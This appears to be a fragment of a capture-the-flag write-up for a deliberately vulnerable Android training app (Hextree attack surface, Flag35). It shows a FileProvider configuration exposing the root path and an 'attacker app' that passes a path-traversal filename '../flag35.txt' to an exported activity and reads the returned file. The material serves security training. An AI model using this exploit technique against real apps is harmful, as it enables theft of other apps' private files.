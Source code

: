```java
        Intent intent2 = new Intent();
        intent2.setData(uriForFile2);
        intent2.addFlags(3);
        setResult(-1, intent2);
    }
```
```xml
<?xml version="1.0" encoding="utf-8"?>
<paths>
    <root-path
        name="root_files"
        path="/"/>
</paths>
```
- attacker app
```java
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_main);

        TextView textView = findViewById(R.id.text);
        Intent intent = new Intent("");
        intent.setClassName("io.hextree.attacksurface",
                "io.hextree.attacksurface.activities.Flag35Activity");
        intent.putExtra("filename", "../flag35.txt");
        startActivityForResult(intent, 42);
    }

    @Override
    protected void onActivityResult(int requestCode, int resultCode, Intent data) {

        TextView textView = findViewById(R.id.text);
        Uri uri = data.getData();
        Log.d("FLAGGG", Uri.parse(String.valueOf(uri)).toString());
        
        try {
            InputStream inputStream = getContentResolver().openInputStream(uri);
            InputStreamReader streamReader =  new InputStreamReader(inputStream);
            BufferedReader bufferedReader =  new BufferedReader(streamReader);
            String file = "";
            while (bufferedReader.ready()){
                file += bufferedReader.readLine();
                file += "\n";
            }
            textView.setText(file);
            Log.d("FLAGXXX: ", file);
        } catch (Exception e) {
            textView.setText(e.toString());
        }
}
```
